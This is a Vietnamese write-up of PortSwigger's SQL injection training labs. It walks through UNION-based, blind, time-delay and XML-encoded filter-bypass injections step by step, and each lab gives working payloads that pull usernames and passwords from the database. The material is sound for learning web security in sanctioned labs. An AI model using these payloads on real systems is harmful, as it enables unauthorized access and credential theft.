 ```yaml
---
title: SQL Injection Labs
date: '2022-12-24'
tags: ['porswigger', 'sql', 'injection','sqlinjection']
draft: false
summary: Writeups cua SQL Injection Labs.
images: ['/static/images/ccna/cisco.jpg']
author: ['default']
---
```

**[1.SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)**

- Ta thấy lệnh ```filter?``` sẽ truy xuất dữ liệu. Dùng ```filter?category=Pets'+or+1=1--'``` sẽ hiện ra toàn bộ thông tin sản phẩm.

**[2.SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)**

![image](https://user-images.githubusercontent.com/61643034/209037070-e5b60413-e259-47d7-9a2d-28b3c433fc0f.png)
- Sử dụng Burp Suite để chặn và sửa đổi yêu cầu đăng nhập.
- Sửa đổi tham số, cung cấp cho nó giá trị: ```usernameadministrator'--```

**[3.SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)**
- Mục đích của bài này là xác định số trường của query.
- Theo gợi ý thấy chèn sau category=? 1 đoạn ```'+UNION+SELECT+NULL,NULL--```
- Kết quả trả về là internal server -> thừa hoặc thiếu số lượng trường trong bảng -> thêm 1 trường vào -> query trở thành ```filter?category=Pets'+UNION+SELECT+NULL,NULL,NULL-- ```

**[4.SQL injection UNION attack, finding a column containing text ](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)**

- Bài này không chỉ cần xác định số trường của query mà còn cả vị trí của text string nữa.
- Cùng 1 trang web query nên ta biết chắc query này cũng sẽ có 3 cột
- Thử payload ```'+UNION+SELECT+'a',NULL,NULL--``` -> màn hình hiện lên bắt nhập string bắt buộc là ```'QCQTlQ'``` -> Enter
- Vẫn bị lỗi internal server -> thử vị trí của string thành cột 2, hoặc 3 -> ```'+UNION+SELECT+NULL,'QCQTlQ',NULL--``` -> done

**[5.SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)**

- Theo mô tả, ta thấy trong database có bảng khác tên là users và bảng này có 2 cột ```username``` và ```password```.
- Thử payload ```'+UNION+SELECT+'a','a'--``` -> Lăn xuống thấy trả về 2 string ***a***
- Thay thành ```'+UNION+SELECT+'username','password'--```
- Màn hình sẽ show ra nhiều hàng hiển thị nhiều tài khoản -> lọc lại thấy có tài khoản ```administrator```
![image](https://user-images.githubusercontent.com/61643034/209432735-55ce8a1f-04e6-4e5b-8a47-04a90503dbaf.png)
 
 -> Click vào trang login -> nhập username và password và -> done
 
 **[6.SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)**

- Tương tự 3.3,thử payload ```'+UNION+SELECT+NULL,username||'~'||password+FROM+users--``` 
![image](https://user-images.githubusercontent.com/61643034/209439384-7f5fc4e3-81c4-4312-8821-80c683513ebf.png)

 -> Click vào trang login -> nhập username và password và -> done
 
 **[7.SQL injection attack, querying the database type and version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)**

- Thử payload ```'+UNION+SELECT+'a',+NULL+FROM+v$version--``` 
- Thông tin của Oracle sẽ hiện ra và done!

 **[8.SQL injection attack, querying the database type and version on MySQL and Microsoft](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)**

- Bài này sau 1 hồi nghiên cứu mình phải dùng Repeater của Burpsuite để thực hành
- Trong gợi ý có payload ```'+UNION+SELECT+@@version,+NULL#``` đây là payload dùng để show version -> sau đó có được version ```'8.0.31-0ubuntu0.20.04.2'``` thì thay ```@@version``` thành version vừa kiếm được. Vậy là xong rồi ^^

**[9.SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)**

- Bài này sau 1 hồi nghiên cứu mình phải dùng Repeater của Burpsuite để thực hành
- Trong gợi ý có payload ```'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--``` đây là payload dùng để show tên các table có trong database, chúng ta sẽ cần nó để tìm tới table chứa ``user `` rồi thấy có 1 table tên là ```users_gwglpg``` rất khả nghi =)))
- Thử truy xuất dữ liệu xem có gì nào. Sửa pay load lại 1 xíu thành ```'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_gwglpg'--``` -> ta được ```username_jsoxhc``` và ```password_tppahp```
- Giờ cùng dùng payload cuối nào ```'+UNION+SELECT+username_jsoxhc,+password_tppahp+FROM+users_gwglpg--``` 
![image](https://user-images.githubusercontent.com/61643034/209443750-96e84f6a-b582-40ce-8796-4383a022bdf8.png)

- Vào ***My Account*** rồi login với tài khoản admin trên là xong =)))

**[10.SQL injection attack, listing the database contents on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)**

- Dùng payload ```'+UNION+SELECT+'abc','def'+FROM+dual--``` -> hiện ra list bảng thấy có bảng user đặc biệt
![image](https://user-images.githubusercontent.com/61643034/209445285-0d03af36-06d8-4c80-be92-c6ebd47be4e1.png)
- Giờ có user -> đổi payload thành ```'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_VODNEC'--``` (vì mình để lab lâu nên nó tự đổi tên user_name :> )
![image](https://user-images.githubusercontent.com/61643034/209446011-b155badb-1b25-4d34-bb21-c5c50d1d4875.png)
- Tiếp có username và password -> đổi payload thành như sau ```'+UNION+SELECT+USERNAME_VGBMEN,PASSWORD_BDEQAY+FROM+USERS_VODNEC--```
![image](https://user-images.githubusercontent.com/61643034/209446101-873b06f6-415e-42e4-b36d-0345d5af381e.png)
- Bây giờ chỉ login vào nữa :> 

**[11.Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)**
- Truy cập trang web -> chọn bất kì 1 category và bật interception burosuite
![image](https://user-images.githubusercontent.com/61643034/209454680-d4ae355a-30ee-4c48-8c2b-8a057e48a4d4.png)
- Theo gợi ý, mình sẽ chỉnh sửa phần TrackingID với payload ```TrackingId=abcxyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=$hehe$)='a``` -> ném cái này vào intruder để xem độ dài của password -> lenght=20
- Sau đó dùng payload sau để kiểm tra từng kí tự của password ```TrackingId=xyz' AND (SELECT SUBSTRING(password,$position$,1) FROM users WHERE username='administrator')='$a$``` với vị trí bruteforce số 1 để từ ***1-20***, còn với vị trí 2 để list là **a-z và 0-9**. 
- Để Grep match case là "Welcome back" -> thu về password là ```qqdl6qgmenyo3fdkcpst```
- Vào login với account administrator là done :>

**[13.Blind SQL injection with time delays](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)**
- Theo gợi ý, mình sẽ chỉnh sửa phần TrackingID với payload trong repeater ```TrackingId=x'||pg_sleep(10)--``` -> send -> done 🫀

**[Bài 12 và 14 làm tương tự các bước bài 11+13]

**[17.SQL injection with filter bypass via XML encoding](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding)
![image](https://user-images.githubusercontent.com/61643034/209040423-3270052e-3a07-4225-9431-70a5c5d6b9cc.png)**

- Truy cập trang web, ở burpsuite, bật interception on
- Bấm vào ```check``` -> vào check request trả về
- Trong request có trường ```storeID``` -> sửa thành ```1+1``` -> trả về 144 unit -> bằng với storeID=2
- Nhập 1 lệnh attack vào giữa cặp ```<storeID>``` -> trả về attack detected -> bị block
  ![image](https://user-images.githubusercontent.com/61643034/209041177-ab4fe22c-2342-451b-aa22-872c072242b4.png)
- Bây giờ vào extension -> cài Hackvertor -> vào encode -> dec_entries -> dán ```<@dec_entities>1 UNION SELECT username || '~' || password FROM users<@/dec_entities>``` vào được output -> copy thả lại vào cặp thẻ ```<storeID>```.
![image](https://user-images.githubusercontent.com/61643034/209444081-694a1c38-9abc-4c49-9bcc-7a908e80d23d.png)
 Và bbooms
![image](https://user-images.githubusercontent.com/61643034/209042766-d1661308-9cbb-42c4-9651-58ebde6e0c14.png)
- Bây giờ, chỉ cần login nữa là xong rồi ^^
